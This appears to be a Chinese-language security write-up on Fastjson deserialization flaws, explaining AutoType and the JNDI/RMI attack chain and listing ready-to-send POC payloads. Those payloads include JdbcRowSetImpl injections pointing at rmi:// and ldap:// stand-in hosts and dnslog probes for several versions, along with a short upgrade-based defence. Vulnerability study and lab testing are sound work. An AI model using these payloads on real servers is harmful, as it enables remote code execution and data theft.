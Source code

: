 Fastjson用于将json和java对象之间转化的工具库，够支持将java bean序列化成JSON字符串，也能够将JSON字符串反序列化成Java bean。
<https://www.cnblogs.com/kingo/p/16528047.html>
^
## **验证利用**
利用工具可以实现反弹shell。
一般java程序，请求体中有传json，可能就是用了fastjson。
vulhub靶场fastjson：
1.2.24以下，传一个错误json，报错回显，看显示中有没有fastjson
1.2.47版本，报错回显是用的com.alibaba.fastjson

此时再构造json使用jndi注入进行验证利用。

## **防御**
fastjson升级到1.2.83版本以上。
```
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.83</version>
</dependency>
```
或不使用fastjson。

^
## **Fastjson序列化/反序列化原理**
fastjson由于引进了AutoType功能，fastjson在对json字符串反序列化的时候，会读取到@type内容指定的类，将json内容反序列化为java对象并调用这个类的setter方法。

**那么为啥要引进Auto Type功能呢？**
fastjson在序列化以及反序列化的过程中并没有使用Java自带的序列化机制，而是自定义了一套机制。
对于JSON框架来说，想要把一个Java对象转换成字符串，可以有两种选择：
1.基于setter/getter反射机制
2.基于属性（AutoType） 。

基于setter/getter会带来什么问题呢，下面举个例子，假设有如下两个类：
```java
class Apple implements Fruit {
    private Big_Decimal price;
    //省略 setter/getter、toString等
}
class iphone implements Fruit {
    private Big_Decimal price;
    //省略 setter/getter、toString等
}
```
实例化对象之后，假设苹果对象的price为0.5，Apple类对象序列化为json格式后为：
{"Fruit":{"price":0.5}}
假设iphone对象的price为5000,序列化为json格式后为：
{"Fruit":{"price":5000}}
当一个类只有一个接口的时候，将这个类的对象序列化的时候，就会将子类名抹去（apple/iphone）只保留接口的类型(Fruit)，最后导致反序列化时无法得到原始类型。
^
为了解决上述问题： fastjson引入了基于属性（AutoType），即在序列化的时候，先把原始类型记录下来。使用@type的键记录原始类型，在本例中，引入AutoType后，Apple类对象序列化为json格式后为：
{ "fruit":{ "@type":"com.hollis.lab.fastjson.test.Apple", "price":0.5 } }
引入AutoType后，iphone类对象序列化为json格式后为：
{ "fruit":{ "@type":"com.hollis.lab.fastjson.test.iphone", "price":5000 } }
这样在反序列化的时候就可以区分原始的类了。



## **Fastjson漏洞原理**
利用Fastjson的autotype机制在处理json对象的时候，未对@type字段进行完全的安全性验证，攻击者可以传入危险类，并调用危险类的中方法连接远程rmi主机，通过其中的恶意类执行代码。攻击者通过这种方式可以实现远程代码执行漏洞，获取服务器的敏感信息泄露，甚至可以利用此漏洞进一步对服务器数据进行修改，增加，删除等操作，对服务器造成巨大的影响。
^
请求包的请求体JSON字符会带有一个@type来标记其字符的原始类型，在反序列化的时候会读取这个@type，来把JSON内容反序列化成@type指定的对象，并且会调用这个对象的setter或者getter方法。
此时@type的类有可能被恶意构造，只需要合理构造一个JSON，使用@type指定一个想要的攻击类库就可以实现攻击。

常见的有sun官方提供的一个类com.sun.rowset.JdbcRowSetImpl，其中有个dataSourceName方法支持传入一个rmi的源，只要解析其中的url就会支持远程调用，
因此整个漏洞复现的原理过程就是：
```
1. 攻击者（我们）访问存在fastjson漏洞的目标靶机网站，通过burpsuite抓包改包，
以json格式添加com.sun.rowset.JdbcRowSetImpl恶意类信息发送给目标机。
2. 存在漏洞的靶机对json反序列化时候，会加载执行我们构造的恶意信息(访问rmi服务器)，
靶机服务器就会向rmi服务器请求待执行的命令。
也就是靶机服务器问rmi服务器，（靶机服务器）需要执行什么命令啊？
3. rmi 服务器请求加载远程机器的class（这个远程机器是我们搭建好的恶意站点，
提前将漏洞利用的代码编译得到.class文件，并上传至恶意站点），
得到攻击者（我们）构造好的命令（ping dnslog或者创建文件或者反弹shell等）
4. rmi将远程加载得到的class（恶意代码），作为响应返回给靶机服务器。
5. 靶机服务器执行了恶意代码，被攻击者成功利用。
```
![](https://img-bc.icode.best/26de9fc36b2940c6882491c5453db571.png)
^
## **漏洞利用和验证**
请求包：
```
'Content-Type':'application/json;charset=UTF-8'
```
```
{"@type":"java.net.InetAddress","val":"x166os.dnslog.cn"}

{"@type":"java.net.Inet4Address","val":"2qytvx.ceye.io"}
```
1.2.24的POC：
@type指定为官方的类，可以远程方法调用。
构造rmi服务器反弹shell利用复现：<https://icode.best/i/30418758861003>
```
{
    "b":{
         "@type":"com.sun.rowset.JdbcRowSetImpl",
         "dataSourceName":"rmi://xxx.com:9999/dnslog",
         "autoCommit":"true"
        }
}
```

之后版本fastjson过滤了@type中敏感字符。
1.2.47的POC：
fastjson中有一个全局缓存，如果fastjosn cache为true，就会缓存java.lang.Class中的val对应的class到全局缓存中。
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
         "dataSourceName":"rmi://xxx.com:9999/dnslog",
         "autoCommit":"true"
    }
}
```





## **POC**
都是上了直接发

> {“@type”:“java.net.Inet4Address”,“val”:“okkkk.02e2z0.dnslog.cn”}，

有时候这个并能触发dnslog，当然好一点的是

> {“x”:{“@type”:“java.net.Inet4Address”,“val”:“okkkk.02e2z0.dnslog.cn”}}

当然这个也是有的情况存在遗漏。

1.2.67版本前

> {“zeo”:{“@type”:“java.net.Inet4Address”,“val”:“c9f7jl.dnslog.cn”}}

1.2.67版本后payload

> {“@type”:“java.net.Inet4Address”,“val”:“dnslog”}\
> {“@type”:“java.net.Inet6Address”,“val”:“dnslog”}\
> {“@type”:“java.net.InetSocketAddress”{“address”:,“val”:“dnslog”}}\
> {{“@type”:“java.net.URL”,“val”:“http\://dnslog”}:“x”}

个人建议，把一些有用的payload放在一个包里面发，先检测是否有dns请求，然后再单独发，确定是那个payload有效，例如：

> {“a”:{“@type”:“java.net.Inet4Address”,“val”:“scspxx.dnslog.cn”},“b”:{“@type”:“java.net.Inet6Address”,“val”:“scspxx.dnslog.cn”},“c”:{“@type”:“java.net.InetSocketAddress”{“address”:,“val”:“scspxx.dnslog.cn”}},“d”:{{“@type”:“java.net.URL”,“val”:“http\://scspxx.dnslog.cn”}:“x”},“e”:{“@type”:“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“ldap\://scspxx.dnslog.cn”,“autoCommit”:true},“f”:{“name”:{“@type”:“java.lang.Class”,“val”:“com.sun.rowset.JdbcRowSetImpl”},“x”{“@type”:“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“ldap\://scspxx.dnslog.cn”,“autoCommit”:true}}},“g”:{“@type”:“javax.swing.JEditorPane”,“page”:“http\://scspxx.dnslog.cn”},“h”:{“@type”:“com.alibaba.fastjson.JSONObject”,\
> {“@type”: “java.net.URL”,“val”:“http\://scspxx.dnslog.cn”}}“”}}

测试fastjson是否存在，以下几种方式：
1. 破坏原先的json 结构，然后看服务器返回的报错信息
2. 输入@type作为key的json数据，来看是否可以执行，比如不出网的情况下发包可能会卡住
3. 白盒情况下直接看classpath的依赖包

